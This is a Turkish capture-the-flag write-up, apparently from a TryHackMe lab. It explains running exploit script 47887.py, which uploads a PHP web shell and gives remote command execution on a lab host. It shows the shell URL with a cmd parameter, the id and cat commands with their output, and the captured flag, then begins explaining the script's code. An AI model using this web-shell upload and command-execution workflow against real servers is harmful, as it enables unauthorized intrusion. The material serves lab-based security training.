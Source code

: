   1. **`python3 47887.py http://10.10.245.228:84/`**  
    Bu komut, `47887.py` adlı Python betiğini çalıştırarak belirtilen URL'ye (http://10.10.245.228:84/) bağlanır ve uzaktaki web sunucusuna bir PHP web shell (web kabuğu) yüklemeyi dener.

  2. **`Attempting to upload PHP web shell...`**  
    Python betiği, belirtilen hedef URL'ye PHP web shell yüklemeyi dener.

  3. **`Verifying shell upload...`**  
    Betik, PHP shell'in başarılı bir şekilde yüklendiğinden emin olmak için kontrol eder.

  4. **`Web shell uploaded to http://10.10.245.228:84/bootstrap/img/i2UTHQZO22.php`**  
    PHP web shell, belirtilen dizine (bootstrap/img/) başarılı bir şekilde yüklenmiştir. Burada `i2UTHQZO22.php` adında bir dosya oluşturulmuştur.

  5. **`Example command usage: http://10.10.245.228:84/bootstrap/img/i2UTHQZO22.php?cmd=whoami`**  
    Yüklenen PHP shell üzerinden, komut çalıştırmak için kullanılacak örnek bir URL sağlanır. `cmd=whoami` komutu, kullanıcının kimliğini öğrenmek için çalıştırılabilir.

  6. **`Do you wish to launch a shell here? (y/n): y`**  
    PHP shell üzerinden bir komut satırı başlatmak istenip istenmediği sorulur. Burada "y" (yes) seçilerek komut satırı başlatılır.

  7. **`RCE $ id`**  
    Komut satırında `id` komutu çalıştırılarak uzaktaki sistemdeki kullanıcı bilgileri alınır. Çıktı şu şekildedir:  
    `uid=100(apache) gid=101(apache) groups=82(www-data),101(apache),101(apache)`  
    Burada Apache web sunucusu kullanıcısının kimlik bilgileri gösterilmektedir.

  8. **`RCE $ cat /opt/flag.txt`**  
    `/opt/flag.txt` dosyasının içeriği okunur. Bu, bir "flag" (bayrak) dosyasına erişim sağlayarak, verilen ödül metnini (bu durumda "THM{But_1ts_n0t_my_f4ult!}") elde eder.

  Böylece hedef makinaya uzaktan komut çalıştırarak (RCE - Remote Code Execution) önemli bilgilere ulaştık: `THM{But_1ts_n0t_my_f4ult!}` olarak yakaladık. Remote Code Execution. Aklında tut unutma.

### Exploit Analizi: PHP Web Shell Yükleme

Bu exploit, hedef web sunucusuna **PHP tabanlı bir web shell yükleyerek uzaktan komut çalıştırmayı (RCE)** amaçlamaktadır. Aşağıda adım adım nasıl çalıştığını açıklıyoruz:  

#### 1. Gerekli Modüllerin ve Argümanların Tanımlanması  
```python
import argparse
import random
import requests
import string
import sys
```
- `argparse`: Komut satırından **URL** parametresini almak için kullanılır.  
- `random` & `string`: Rastgele bir dosya adı oluşturmak için kullanılır.  
- `requests`: HTTP isteklerini göndermek için kullanılır.  
- `sys`: Shell açma sürecini kontrol etmek için kullanılır.  

#### 2. Kullanıcının Girdiği URL'yi Alır ve İşler
```python
parser = argparse.ArgumentParser()
parser.add_argument('url', action='store', help='The URL of the target.')
args = parser.parse_args()
url = args.url.rstrip('/')
```
- Kullanıcıdan hedefin URL'sini alır.  
- `rstrip('/')` kullanılarak URL’nin sonunda `/` varsa kaldırılır.  
